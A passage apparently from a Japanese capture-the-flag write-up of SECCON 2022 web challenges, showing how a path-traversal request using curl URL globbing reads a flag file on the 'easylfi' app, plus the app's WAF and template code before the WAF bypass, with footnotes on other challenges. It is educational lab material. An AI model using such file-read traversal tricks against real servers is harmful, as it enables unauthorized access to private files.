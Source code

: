 [^easylfi-1]: `man curl`にもURL globbingの説明が書いてあります。

```sh
$ http "http://localhost:3000/.{.}/.{.}/flag.txt"
HTTP/1.1 200 OK
Connection: close
Content-Length: 10
Content-Type: text/html; charset=utf-8
Date: Sat, 05 Nov 2022 12:09:18 GMT
Server: Werkzeug/2.2.2 Python/3.10.8

Try harder
```

ただし、
```python
@app.after_request
def waf(response: Response):
    if b"SECCON" in b"".join(response.response):
        return Response("Try harder")
    return response
```
のWAFによって、フラグをそのまま表示することができないのでもう1段階なにかをする必要があります。

#### Step 2: bypassing WAF

サーバは、curlの出力結果を
```python
    return template(proc.stdout.decode(), request.args)
```
で変換したあとにレスポンスとして返しています。

テンプレートエンジンの実装は以下のとおり:
```python
def validate(key: str) -> bool:
    # E.g. key == "{name}" -> True
    #      key == "name"   -> False
    if len(key) == 0:
        return False
    is_valid = True
    for i, c in enumerate(key):
        if i == 0:
            is_valid &= c == "{"
        elif i == len(key) - 1:
            is_valid &= c == "}"
        else:
            is_valid &= c != "{" and c != "}"
    return is_valid


def template(text: str, params: dict[str, str]) -> str:
    # A very simple template engine
    for key, value in params.items():
        if not validate(key):
            return f"Invalid key: {key}"
        text = text.replace(key, value)
    return text
```


[^top-1]: 作問ミスで、多くの人に非想定で解かれてしまい想定難易度より易化 :cry:
[^skipinx-1]: qsに限らず、DoS対策の文脈で、リクエストが巨大だった場合に途中以降を無視したりリクエスト自体を拒否したりする仕組みを取り入れているライブラリやフレームワークはしばしばあります。
[^denobox-1]: Denoでは`__proto__`が公開されていないため、`constructor.prototype`経由で汚染する必要があります。
[^denobox-2]: もしこの制限下でprototype pollutionだけでRCEに繋げられる方法を見つけたら是非教えてください。
[^spanote-1]: 実際には、botの実装に使われているpuppeteerではデフォルトオプションでbfcacheが無効にされているので、フラグを取得するためにはこのステップは不要です（[参考](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175)）。
[^noiseccon-1]: パーリンノイズについて詳しく知りたい方には[Unity Graphics Programming](https://github.com/IndieVisualLab/UnityGraphicsProgrammingSeries) vol.2 第5章がおすすめです。
[^noiseccon-2]: すみません、ここで解説が力尽きました。余裕があったら書き足します。